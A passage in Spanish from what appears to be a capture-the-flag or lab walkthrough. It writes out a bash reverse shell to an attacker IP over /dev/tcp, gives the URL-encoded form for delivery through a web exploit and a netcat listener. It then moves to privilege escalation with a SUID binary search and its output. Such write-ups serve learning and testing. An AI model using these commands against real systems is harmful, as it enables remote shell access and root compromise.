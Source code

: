 **Comando de Reverse Shell (codificado en URL):**

```bash
bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

*   `bash -i`: Abre una shell interactiva de bash.
*   `>& /dev/tcp/172.17.0.1/443`: Redirige tanto la salida estándar (`stdout`) como la salida de error estándar (`stderr`) a un socket TCP que se conecta a la IP `172.17.0.1` (la IP de la máquina atacante) en el puerto `443`.
*   `0>&1`: Redirige la entrada estándar (`stdin`) al mismo socket, haciendo que la shell sea completamente interactiva.

**Codificación URL:**

Para ejecutar este comando a través de una interfaz web o un exploit que maneje URLs, es común codificarlo. Herramientas como `https://www.urlencoder.org/` se utilizan para este propósito. El comando codificado sería:

```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F443%200%3E%261%27
```

**Listener en la Máquina Atacante:**

En una terminal separada en la máquina atacante, se inicia un `listener` de `netcat` en el puerto especificado (en este caso, 443).

```bash
nc -nvlp 443
```

Una vez que el comando codificado se ejecuta en la máquina objetivo, la `reverse shell` se conectará al `listener` de `netcat`, proporcionando una shell interactiva y estable.

## 6. Escalada de Privilegios 

Después de obtener una shell inicial como un usuario de bajos privilegios (`www-data`), el siguiente objetivo es escalar privilegios a `root`. Una técnica común es buscar binarios con el bit SUID (Set User ID) activado. Cuando un programa con el bit SUID activado es ejecutado por un usuario, se ejecuta con los permisos del propietario del archivo, no con los del usuario que lo ejecuta. Si el propietario es `root`, el programa se ejecutará con privilegios de `root`.

### Búsqueda de Binarios SUID

Se utiliza el comando `find` para buscar archivos con el bit SUID activado en todo el sistema de archivos.

```bash
find / -perm -4000 -ls 2>/dev/null
```

### Salida de la Búsqueda SUID

```
77718566     44 -rwsr-xr-x   1 root     root        44304 Mar  7  2018 /bin/mount  
77718582     40 -rwsr-xr-x   1 root     root        40536 May 17  2017 /bin/su  
77718589     32 -rwsr-xr-x   1 root     root        31720 Mar  7  2018 /bin/umount  
76244841     52 -rwsr-xr-x   1 root     root        50040 May 17  2017 /usr/bin/chfn  
76244843     40 -rwsr-xr-x   1 root     root        40504 May 17  2017 /usr/bin/chsh  
76694335    220 -rwsr-xr-x   1 root     root       221768 Feb 18  2017 /usr/bin/find  
76381719     76 -rwsr-xr-x   1 root     root        75792 May 17  2017 /usr/bin/gpasswd  
76419523     40 -rwsr-xr-x   1 root     root        40312 May 17  2017 /usr/bin/newgrp  
76419534     60 -rwsr-xr-x   1 root     root        59680 May 17  2017 /usr/bin/passwd  
42369695    140 -rwsr-xr-x   1 root     root       140944 Jan 23  2021 /usr/bin/sudo
```
